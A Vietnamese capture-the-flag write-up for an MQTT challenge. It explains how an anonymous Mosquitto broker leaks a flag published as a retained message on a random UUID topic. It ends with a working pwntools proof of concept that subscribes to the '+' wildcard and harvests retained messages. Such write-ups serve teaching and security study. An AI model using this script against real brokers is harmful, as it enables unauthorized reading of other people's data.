



# Unverified Patch

Write-up được viết bởi Hoàng Minh Quân - sinh viên ngành Kỹ thuật Máy tính K70

## Tiếp cận ban đầu





Mình nhận ra hướng khai thác thật của bài này lại không nằm ở binary, mà nằm ở cách challenge sử dụng MQTT.

Ý tưởng cốt lõi của bài là flag được publish lên broker dưới dạng `retained message`, trong khi broker lại cho phép anonymous client subscribe bằng wildcard. Chỉ cần hiểu đúng hai tính năng này là có thể lấy lại flag mà không cần biết chính xác topic chứa nó.

Với những challenge có cả binary lẫn script phụ trợ, mình thường không lao ngay vào reverse. Thay vào đó, mình đọc theo thứ tự:

1. Script khởi động service
2. File config
3. Script phụ trợ
4. Script solve nếu có
5. Cuối cùng mới quay lại binary

## Step 1: Xem challenge thật sự đang chạy gì

Mình mở `start.sh` trước:

```bash
#!/bin/bash

(
    while true; do
        sleep 10
        python3 flag_planter.py
    done
) &

/app/mosquitto -c /app/mosquitto.conf
```

Nhìn vào đây thì có thể rút ra ngay hai ý chính:

1. Service chính của challenge là `mosquitto`
2. Cứ mỗi `10 giây` sẽ có một script tên `flag_planter.py` được chạy

Điều này khá quan trọng, vì nó cho mình cảm giác rằng flag không chỉ được lưu ở đâu đó trong filesystem, mà đang được bơm vào service theo chu kỳ. Nói cách khác, để lấy được flag thì rất có thể mình phải quan sát cách `flag_planter.py` tương tác với broker.


## Step 2: Mosquitto là gì?

`Mosquitto` là một MQTT broker.

MQTT là : 

- Một client có thể `publish` dữ liệu lên một `topic`
- Client khác có thể `subscribe` vào `topic` đó để nhận dữ liệu
- Broker là thành phần đứng giữa để nhận message và phân phối cho các subscriber phù hợp

Vì vậy, nếu challenge dùng Mosquitto thì rất có khả năng flag đang được publish lên một topic nào đó, rồi từ đó có thể bị người khác subscribe và lấy ra.


## Step 3: Đọc cấu hình broker

Sau đó mình mở `mosquitto.conf`:

```conf
listener 1883 0.0.0.0

allow_anonymous true

# MQTT v5 topic alias support
max_topic_alias 256

# Logging
log_type all
log_dest stderr

persistence false
```

Dòng mình để ý ngay lập tức là:

```conf
allow_anonymous true
```

Điều này có nghĩa là:

- bất kỳ ai cũng có thể kết nối vào broker
- không cần username
- không cần password
- không có cơ chế kiểm soát truy cập rõ ràng trong config này

Đến đây thì mình bắt đầu nghiêng hẳn sang hướng logic flaw. Một broker cho phép anonymous access mà lại có script định kỳ bơm flag vào, thì khả năng rất cao là flag đang bị “lộ theo thiết kế”.

Trong một hệ thống thật, đây là cấu hình khá nguy hiểm nếu có dữ liệu nhạy cảm. Còn trong bài CTF này, nó gần như là lời gợi ý trực tiếp rằng mình nên thử đóng vai một MQTT client bình thường.

## Step 4: Tìm hiểu `flag_planter.py`

Tiếp theo mình mở `flag_planter.py`:

```python
#!/usr/bin/env python3
import socket
import struct
import sys
import time
import os

def plant_flag(host="127.0.0.1", port=1883):
    import uuid
    # Try to read flag from flag.txt in the same directory
    flag_path = os.path.join(os.path.dirname(os.path.abspath(__file__)), "flag.txt")
    if os.path.exists(flag_path):
        with open(flag_path, "rb") as f:
            flag = f.read().strip()
    else:
        # Fallback if flag.txt doesn't exist locally
        flag = b"HTB{f4k3_fl4g_4_t3st1ng}"

    print(f"[*] Planting flag: {flag.decode()} at {host}:{port}")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        s.connect((host, port))
    except ConnectionRefusedError:
        print(f"[-] Connection refused to {host}:{port}. Is Mosquitto running?")
        sys.exit(1)

    # CONNECT packet (MQTT v5, Clean Start=1, Keep Alive=60s)
    cid = b'flag_planter'
    # Variable Header: len=4 ('MQTT'), protocol=5, flags=0x02, keepalive=60, properties=0
    vh = b'\x00\x04MQTT\x05\x02\x00\x3c\x00'
    payload = struct.pack('!H', len(cid)) + cid
    pkt = b'\x10' + bytes([len(vh)+len(payload)]) + vh + payload
    
    # Send CONNECT and receive CONNACK
    s.send(pkt)
    s.recv(256)
    time.sleep(0.2)

    # PUBLISH retained (QoS=0)
    random_uuid = str(uuid.uuid4())
    topic = f'{random_uuid}'.encode()
    tf = struct.pack('!H', len(topic)) + topic
    remaining = tf + b'\x00' + flag # b'\x00' = properties length (none)
    # 0x31 = PUBLISH control packet (0x30) | retain flag (0x01)
    pkt = b'\x31' + bytes([len(remaining)]) + remaining
    
    s.send(pkt)
    time.sleep(0.2)

    # DISCONNECT packet
    s.send(b'\xe0\x02\x00\x00')
    s.close()
    print(f"[+] Flag ({len(flag)} bytes) published as retained on '{topic.decode()}'")

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "127.0.0.1"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 1883
    plant_flag(host, port)
```

Sau khi đọc xong script này, mình thấy bức tranh gần như đã rõ. Script làm ba việc:

1. Đọc flag từ `flag.txt`
2. Kết nối tới MQTT broker
3. Publish flag lên một topic ngẫu nhiên

Nhưng điều quan trọng không nằm ở ba bước đó, mà nằm ở cách nó publish.

## Step 5: Topic chứa flag là một UUID ngẫu nhiên

Đoạn này là nơi script tạo topic:

```python
random_uuid = str(uuid.uuid4())
topic = f'{random_uuid}'.encode()
```

Ví dụ topic có thể trông như thế này:

```text
550e8400-e29b-41d4-a716-446655440000
```

Thoạt đầu, mình nghĩ đây là một cơ chế che giấu hợp lý: nếu topic thay đổi ngẫu nhiên mỗi lần publish, người ngoài sẽ khó mà đoán đúng topic để subscribe.

Nhưng MQTT không bắt người dùng phải biết chính xác topic. Nó hỗ trợ wildcard, và đó chính là thứ khiến cách che giấu này không còn hiệu quả nữa.


## Step 6: Flag được publish dưới dạng retained message

Đây là đoạn quan trọng nhất trong toàn bộ challenge:

```python
# 0x31 = PUBLISH control packet (0x30) | retain flag (0x01)
pkt = b'\x31' + bytes([len(remaining)]) + remaining
```

Trong MQTT:

- `0x30` là packet `PUBLISH`
- bit `0x01` là cờ `retain`

Nghĩa là `0x31` tương đương với một `PUBLISH` có bật `retain = 1`.

### Retained message là gì?

Đây là khái niệm rất quan trọng để hiểu bài.

Bình thường, nếu một publisher gửi message lên broker thì chỉ những subscriber nào đang online và subscribe đúng topic mới nhận được. Sau đó message trôi qua, client mới vào sau sẽ không thấy lại message cũ.

Nhưng với `retained message`, broker sẽ giữ lại message cuối cùng của topic đó. Sau này, nếu có client mới subscribe vào topic phù hợp, broker sẽ tự động gửi lại retained message ngay lập tức.

Ví dụ:

- Có retained message `"FLAG"` trên topic `abc`
- Một client mới vừa subscribe `abc`
- Broker sẽ replay `"FLAG"` cho client đó

Nói ngắn gọn, retained message giống như “giá trị cuối cùng đang được lưu tại topic”.

Và trong challenge này, thứ được lưu lại chính là flag.

## Step 7: Wildcard trong MQTT

### Topic level là gì?

Trong MQTT, topic được chia level bằng dấu `/`.

Ví dụ:

- `sensor/temp` có 2 level
- `a/b/c` có 3 level
- `550e8400-e29b-41d4-a716-446655440000` không có dấu `/`, nên chỉ có 1 level

### Hai wildcard quan trọng

- `+` đại diện cho đúng `1 level`
- `#` đại diện cho nhiều level còn lại

Ví dụ:

- `a/+` match `a/b`
- `a/+` không match `a/b/c`
- `+` match `abc`
- `+` không match `a/b`
- `a/#` match `a/b`
- `a/#` match `a/b/c`

### Liên hệ trực tiếp với challenge

Topic chứa flag là UUID, và UUID này không có dấu `/`. Điều đó có nghĩa là nó là một topic một-level.

Vì vậy:

- wildcard `+` sẽ match chính xác mọi topic dạng này

Đến đây thì mình không còn cần biết topic cụ thể nữa. Chỉ cần subscribe `+` là đủ để nhận mọi retained message đang nằm trên các topic một-level, bao gồm cả topic chứa flag.


## Step 8: Ý tưởng khai thác hoàn chỉnh

Hướng khai thác của chúng ta sẽ là : 

1. Broker cho anonymous access
2. `flag_planter.py` publish flag lên một topic UUID ngẫu nhiên
3. Message đó là retained message
4. Topic UUID chỉ có một level
5. Subscribe wildcard `+` sẽ match topic đó
6. Broker sẽ tự replay retained flag về cho mình


## PoC

```python
#!/usr/bin/env python3
from pwn import *
import struct

HOST = args.HOST or "127.0.0.1"
PORT = int(args.PORT or 1883)


def enc_rem(n):
    out = bytearray()
    while True:
        b = n % 128
        n //= 128
        if n:
            b |= 0x80
        out.append(b)
        if not n:
            return bytes(out)


def read_packet(io):
    packet_type = io.recvn(1)[0]
    mult = 1
    rem_len = 0
    while True:
        b = io.recvn(1)[0]
        rem_len += (b & 0x7f) * mult
        if not (b & 0x80):
            break
        mult *= 128
    return packet_type, io.recvn(rem_len)


def mqtt_connect(io):
    client_id = b"flag_leaker"
    vh = b"\x00\x04MQTT\x05\x02\x00\x3c\x00"
    payload = struct.pack("!H", len(client_id)) + client_id
    body = vh + payload
    io.send(b"\x10" + enc_rem(len(body)) + body)
    packet_type, body = read_packet(io)
    if packet_type != 0x20 or body[1] != 0:
        raise RuntimeError(f"CONNECT failed: type={packet_type:#x} body={body.hex()}")


def subscribe_plus(io):
    topic = b"+"
    body = b"\x00\x01\x00" + struct.pack("!H", len(topic)) + topic + b"\x00"
    io.send(b"\x82" + enc_rem(len(body)) + body)
    packet_type, body = read_packet(io)
    if packet_type != 0x90 or body[-1] >= 0x80:
        raise RuntimeError(f"SUBSCRIBE failed: type={packet_type:#x} body={body.hex()}")


def parse_publish(body):
    topic_len = struct.unpack("!H", body[:2])[0]
    topic = body[2:2 + topic_len]
    pos = 2 + topic_len
    prop_len = body[pos]
    pos += 1 + prop_len
    return topic, body[pos:]


io = remote(HOST, PORT)
mqtt_connect(io)
subscribe_plus(io)

while True:
    packet_type, body = read_packet(io)
    if packet_type >> 4 == 3:
        topic, payload = parse_publish(body)
        if b"HTB{" in payload:
            log.success(f"topic={topic.decode(errors='replace')}")
            print(payload.decode(errors="replace"))
            break
```
Mình đã chạy trên Local, kết quả thu được flag 
